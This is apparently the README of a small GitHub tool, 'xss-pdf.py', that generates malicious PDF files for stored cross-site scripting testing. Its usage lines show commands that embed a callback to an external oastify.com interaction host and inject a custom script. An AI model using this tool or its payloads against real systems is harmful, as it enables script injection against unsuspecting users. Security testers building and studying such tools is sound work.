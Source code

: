 # pdf-injection

Installation
```
git clone URL
```

Usage
```
python -h
python3 xss-pdf.py 
python3 xss-pdf.py -o 1 -u http://n1pze4owqnry5tzzqngb5.oastify.com
python3 xss-pdf.py -o 2 -sc app.alert(2) 
```

Option 1
creates malicous PDF files for stored xss vulnerability

Option 2
allows user to create own PDF file with their personal scripts - still working on it


Open to new suggestions, please create an issue
